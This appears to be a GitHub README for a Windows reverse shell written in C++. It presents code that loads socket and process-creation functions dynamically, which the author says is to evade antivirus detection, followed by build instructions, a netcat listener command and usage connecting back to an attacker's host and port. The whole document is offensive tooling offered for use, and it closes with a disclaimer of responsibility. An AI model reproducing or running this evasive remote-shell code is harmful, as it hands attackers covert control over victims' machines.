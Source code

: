 # Windows Reverse Shell
![detection](https://github.com/user-attachments/assets/157c1291-4489-4cce-914a-4829ac631f45)

## Avoiding  Detection
For avoiding detection I defined manually the "sketchy" functions so they can be loaded dynamically by kernel32.dll,and ws2_32.dll
```cpp
...
typedef SOCKET(WINAPI *pWSASocketA)(int, int, int, LPWSAPROTOCOL_INFOA, GROUP, DWORD);
typedef int(WINAPI *pconnect)(SOCKET, const sockaddr *, int);
typedef BOOL(WINAPI *pCreateProcessA)(LPCSTR, LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, BOOL, DWORD, LPVOID, LPCSTR, LPSTARTUPINFOA, LPPROCESS_INFORMATION);

int main(int argc, char const *argv[])

{
    if (argc == 3)
    {
        HMODULE hWS2_32 = GetModuleHandleW(L"ws2_32.dll");
        HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
        pWSASocketA fWSASocketA = (pWSASocketA)GetProcAddress(hWS2_32, "WSASocketA");
        pconnect fconnect = (pconnect)GetProcAddress(hWS2_32, "connect");
        pCreateProcessA fCreateProcessA = (pCreateProcessA)GetProcAddress(hKernel32, "CreateProcessA");
...
```
## Compile
Remember to set the proper compiler in the `Makefile`
### Example
```Makefile
CC= x86_64-w64-mingw32-g++
CFLAGS= -O2 -Wall -fstack-protector-all -fcf-protection=full
LDLIBS= -lws2_32
program: main.cpp
	${CC} ${CFLAGS} -o program main.cpp ${LDLIBS}
```
To compile just enter
```
make
```
## Running the reverse hell
Remember to have your listener ready
```
nc -lvnp 443
```
## Usage
```
./program.exe HOST PORT
```
### Example
```
./program.exe 127.0.0.1 443
```
If it connects it should output
```
[+] Connected
```
If not, it will keep waiting for a connection
```
[!] Couldn't connect, retrying...
[!] Couldn't connect, retrying...
[!] Couldn't connect, retrying...
```
## Warning
I'm not responsbible for what you do with this program
